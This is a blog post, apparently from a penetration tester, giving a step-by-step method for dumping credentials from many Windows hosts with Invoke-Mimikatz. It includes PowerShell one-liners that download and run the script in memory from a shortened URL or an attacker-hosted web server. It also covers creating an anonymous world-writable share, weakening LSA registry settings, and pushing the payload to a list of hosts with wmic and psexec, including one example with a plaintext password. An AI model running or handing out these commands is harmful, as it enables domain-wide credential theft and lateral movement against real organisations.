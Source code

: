 ---
layout: post
title: "Dumping a domain worth of passwords with mimikatz"
date: 2013-10-05 23:53:52 -0500
comments: true
categories: 
- mimikatz
- cli
---

[clymb3r](http://clymb3r.wordpress.com/) recently posted a script called "[Invoke-Mimikatz.ps1](https://github.com/clymb3r/PowerShell/tree/master/Invoke-Mimikatz)" basically what this does is reflectively injects mimikatz into memory, calls for all the logonPasswords and exits. It even checks the targets architecture (x86/x64) first and injects the correct DLL.

You can very easily use this script directly from an admin command prompt as so:

    powershell "IEX (New-Object Net.WebClient).DownloadString('http://is.gd/oeoFuI'); Invoke-Mimikatz -DumpCreds"

(This works REALLY well for Citrix and Kiosk scenarios and it's too hard to type/remember)
This runs the powershell script by directly pulling it from Github and executing it "in memory" on your system. 

One of the awesome added capabilities for this script is to run on a list of hosts. as so:

    powershell "IEX (New-Object Net.WebClient).DownloadString('http://is.gd/oeoFuI'); Invoke-Mimikatz -DumpCreds -ComputerName @('computer1', 'computer2')"

This works great as all the output is directly on your system and all executed through Powershell Remoting. [Powershell Remoting]("http://msdn.microsoft.com/en-us/library/windows/desktop/ee706585(v=vs.85).aspx") is pretty much the same as WinRM. This service however is not enabled by default and can be pretty hit or miss on how much any given enterprise uses WinRM. However, it is usually the servers and more important systems that have it enabled more often than not.

You can find WinRM / PowerShell Remoting by scanning for the service port 47001 as well as the default comm ports for WinRM 5985 (HTTP) and 5986 (HTTPS).

If you find that your target isn't a WinRM rich environment or you just want more passwords you can take a slightly more painful route, I call it "Mass Mimikatz"

Step 1. Make a share, we are doing this so we can not only collect the output of all our computers passwords, but to host the CMD batch file that will run the powershell script:

    cd\
    mkdir open
    net share open=C:\open /grant:everyone,full
    icacls C:\open\ /grant Everyone:(OI)(CI)F /t

We are setting "Everyone" permissions on a Share (net share) and NTFS (icacls) level for this to work properly.

Step 2. Set registry keys. There are two registry keys that we need to set. The first allows Null Sessions to our new share and the second allows null users to have the "Everyone" token so that we don't have to get crazy with our permissions. I have create a meterpreter script that has a bunch of error checking here: [massmimi_reg.rb](https://raw.github.com/mubix/post-exploitation/master/scripts/mass_mimikatz/massmimi_reg.rb)
or you can just make the following changes"

    HKLM\System\CurrentControlSet\services\LanmanServer\Parameters NullSessionShares REG_MULTI_SZ  = open
    HKLM\System\CurrentControlSet\Contol\Lsa "EveryoneIncludesAnonymous" = 1

Step 3. Change directory into new "open" directory. This is so our uploads and in particular our web server will be hosted out of the correct directory.

Step 4. Upload powershell script [powermeup.cmd](https://raw.github.com/mubix/post-exploitation/master/scripts/mass_mimikatz/powermeup.cmd) - this script will run our hosted Invoke-Mimikatz script on each host:

    powershell "IEX (New-Object Net.WebClient).DownloadString('http://192.168.1.127:8080/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -DumpCreds > \\192.168.1.127\open\%COMPUTERNAME%.txt 2>&1

Step 5. Upload [clymb3r](http://clymb3r.wordpress.com/)'s Invoke-Mimikatz ps1 - Download from [PowerSploit](https://github.com/mattifestation/PowerSploit) repo: [source on github](https://raw.github.com/mattifestation/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1)

Step 6. Upload mongoose: [Downloads Page](http://cesanta.com/downloads.html) - Both regular and tiny versions work. This is an awesome, single executable webserver that supports LUA, Sqlite, and WebDAV out of the box. Tiny version is under 100k.

Step 7. Upload serverlist.txt - This is a line by line list of computer names to use mimikatz on. You'll have to gather this one way or another.

Step 8. Execute mongoose (from directory with mimikatz.ps1) - This will start a listener with directory listings enabled on port 8080 by default

Step 9a. Execute wmic:

    wmic /node:@serverlist.txt process call create "\\192.168.92.127\open\powershellme.cmd"

Step 9b. Execute wmic with creds:

    wmic /node:@serverlist.txt /user:PROJECTMENTOR\jdoe /password:ASDqwe123 process call create "\\192.168.92.127\open\powershellme.cmd"

Step 10. Watch as text files full of wonder and joy fill your share.

You can find the scripts here: https://github.com/mubix/post-exploitation/tree/master/scripts/mass_mimikatz

Don't forget to clean up::

1. kill mongoose process
2. net share open /delete
3. kill/reset registry values
4. delete "open" directory

Got a better way of getting this done? Please leave a comment.

P.S. You could just enable Powershell Remoting for them ;)

    psexec @serverlist.txt -u [admin account name] -p [admin account password] -h -d powershell.exe "enable-psremoting -force"

![](/images/postimages/201310_multimimi_1.png)
